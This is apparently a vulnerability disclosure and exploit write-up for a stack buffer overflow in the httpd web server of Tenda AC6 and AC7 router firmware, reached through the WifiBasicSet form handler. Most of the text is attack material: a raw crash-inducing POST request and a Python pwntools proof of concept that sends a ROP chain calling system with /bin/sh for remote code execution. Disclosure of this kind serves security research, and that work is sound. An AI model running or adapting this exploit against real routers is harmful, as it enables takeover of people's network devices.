




# Route_Stack_overflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 && US_AC7V1.0RTL_V15.03.06.44_multi_TD01.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html

##### Describe

​	I found vulnerability. On the Tenda AC6 router, the firmware version is us_ AC6V1.0BR_ V15.03.05.16_ multi_ Td01, the router's web server has a buffer overflow vulnerability -- httpd. When processing / goform / WiFi basicset, the strcpy function is directly used to copy the parameters to the stack, overwriting the variables and return addresses on the stack. Attackers can build payloads for arbitrary code execution

##### Details && POC

​	httpd formWifiBasicSet fuction in IDA view





​	SRC is copied to dest through strcpy function. Dest is stored on the stack. SRC is the security_5g there is no length limit, there is a stack overflow vulnerability, and the post request packet can be constructed reasonably 

TEXT



```
POST /goform/WifiBasicSet HTTP/1.1

Host: 192.168.33.6

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 128

Origin: http://192.168.33.6

Connection: close

Referer: http://192.168.33.6/wireless_ssid.html?random=0.022806312459952904&


wrlEn=1&wrlEn_5g=0&security=none&security_5g=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&ssid=123123&ssid_5g=&hideSsid=0&hideSsid_5g=0&wrlPwd=12312311111111&wrlPwd_5g=
```

​	Then the program crashes




POC
```
import requests
from pwn import *

url = "http://192.168.33.9/goform/WifiBasicSet"

bin_sh=0xff5ed6d2
system=0xff72d0f4
pop_r0_pc=0xff58b000+0x00033e48
#0x76daa000+0x00033e48
#-1c -2c -38 "a"*(4*155)
payload=p32(0xfffee860)*155+"a"*4+p32(0xfffee860)+p32(pop_r0_pc)+p32(0xff75a002)+p32(0xfffee860)*4+p32(0xff5c0cd4)
#payload=payload.ljust((0x274-0x2c),"a")
#payload=payload.ljust((0x274-0x1c),"b")
#payload+="a"*0x100#+"a"*0x100

data={
	"wrlEn":"1",
	"wrlEn_5g":"0",
	"security":"None",
	"security_5g":payload,
	"ssid":"CCCCC",
	"ssid_5g":"",
	"hideSsid":"0",
	"hideSsid_5g":"0",
	"wrlPwd":"11111111111111",
	"wrlPwd_5g":""
}
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/wireless_ssid.html?random=0.8110608076948547&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)

print(response.text)
```
